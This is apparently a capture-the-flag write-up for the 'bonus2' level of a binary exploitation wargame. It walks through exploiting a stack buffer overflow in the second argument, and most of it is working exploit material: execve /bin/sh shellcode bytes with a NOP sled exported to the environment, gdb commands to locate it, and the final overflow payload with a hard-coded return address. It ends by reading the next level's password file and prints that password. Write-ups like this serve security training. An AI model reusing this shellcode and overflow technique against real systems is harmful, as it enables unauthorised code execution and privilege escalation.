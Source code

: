 ### Download binary
``scp -P4242 bonus2@192.168.31.170:/home/user/bonus2/bonus2 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

The main is quite complex, but after analysis the exploit is quite simple. We need to implement an adress to our shellcode after an overflow in the 2nd arg. We will put our shellcode in the environement because it is more convenient for us.

The payload that we will build is like this :

**40 char of junk, 18 char to overflow then the adress of our shellcode**

----

### Building the payload

First we export our shellcode

``export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')``

After that we need to find the adress to our shellcode.

``(gdb) disas main``
>Dump of assembler code for function main:
>[...]

``(gdb) x/100s &0xbffff884``
>[...]
>"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\211\301\211\302\260\v\315\200\061\300@\315\200"

By measure of safety, we will point in the middle of our NOP instruction, not at the start.

Now we got everything we need, our final payload will be :
``$(python -c "print 'A' * 40") $(python -c "print 'B' * 18 + '\x94\xf8\xff\xbf'")``

After some tries, we see that we need to set the **LANG** in env to **fi**:
``EXPORT LANG=fi``

----

#### Getting the flag

``./bonus2 $(python -c "print 'A' * 40") $(python -c "print 'B' * 18 + '\x94\xf8\xff\xbf'")``
>Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����

``$ cat /home/user/bonus3/.pass``
>71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
